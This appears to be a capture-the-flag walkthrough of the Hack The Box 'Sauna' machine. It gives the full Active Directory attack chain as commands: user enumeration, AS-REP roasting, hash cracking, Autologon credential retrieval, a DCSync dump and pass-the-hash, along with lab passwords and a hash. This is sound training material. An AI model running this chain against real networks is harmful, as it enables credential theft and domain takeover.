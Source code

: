 # [Sauna](https://app.hackthebox.com/machines/sauna)

```bash
nmap -p- --min-rate 10000 10.10.10.175 -Pn
```

![Alt text](img/image.png)


Let's discover open ports of application (53,80,135,139,389,445,49667) via greater nmap scan.

```bash
nmap -A -sC -sV -p53,80,135,139,389,445,49667 10.10.10.175 -Pn
```

![Alt text](img/image-1.png)

I just did enumeration from website of application and wrote possible usernames.txt file.

![Alt text](img/image-2.png)

Let's do user enumeration via `kerbrute` tool.

```bash
kerbrute -users usernames.txt -domain EGOTISTICAL-BANK.LOCAL -dc-ip 10.10.10.175
```

![Alt text](img/image-3.png)


From this result, I see that for 'fsmith' user says that **NOT PREAUTH**

It means, via this user, we can do **'AS-REP Roasting'** attack.

```bash
python3 /usr/share/doc/python3-impacket/examples/GetNPUsers.py 'EGOTISTICAL-BANK.LOCAL/fsmith' -no-pass -dc-ip 10.10.10.175
```

![Alt text](img/image-4.png)


I grab TGT hash and try to crack this via `hashcat` tool.

```bash
hashcat -m 18200 hash.txt --wordlist /usr/share/wordlists/rockyou.txt 
```

![Alt text](img/image-5.png)


I grab found credentials as below.

fsmith: Thestrokes23


I login via this credentials by using `evil-winrm` tool.

```bash
evil-winrm -i 10.10.10.175 -u fsmith -p Thestrokes23
```

user.txt

![Alt text](img/image-6.png)


I just run query for Autologon credentials.

```bash
reg query "HKEY_LOCAL_MACHINE\SOFTWARE\Microsoft\Windows NT\CurrentVersion\Winlogon" /v DefaultUserName
reg query "HKEY_LOCAL_MACHINE\SOFTWARE\Microsoft\Windows NT\CurrentVersion\Winlogon" /v DefaultDomainName
reg query "HKEY_LOCAL_MACHINE\SOFTWARE\Microsoft\Windows NT\CurrentVersion\Winlogon" /v DefaultPassword

```

![Alt text](img/image-7.png)


I found below credentials.

svc_loanmgr: Moneymakestheworldgoround!


I just login via this credentials by using `evil-winrm` tool.

```bash
evil-winrm -i 10.10.10.175 -u svc_loanmgr -p 'Moneymakestheworldgoround!'
```


Now, I just check this user has 'Replication' permission to do 'DC Sync attack'

First, let's check this user has remote permission.

```bash
net user svc_loanmgr /domain
```

![Alt text](img/image-8.png)


As this user has 'Remote' permission, we can do 'DCSync attack' via `secretsdump` script.

```bash
python3 /usr/share/doc/python3-impacket/examples/secretsdump.py 'svc_loanmgr:Moneymakestheworldgoround!@10.10.10.175'
```

![Alt text](img/image-9.png)


From here, I grab NTLM hash of 'administrator' user.

administrator: 823452073d75b9d1cf70ebdf86c7f98e

Let's login via `evil-winrm` tool to do **'Pass-The-Hash'** attack.

```bash
evil-winrm -i 10.10.10.175 -u administrator -H 823452073d75b9d1cf70ebdf86c7f98e
```


root.txt

![Alt text](img/image-10.png)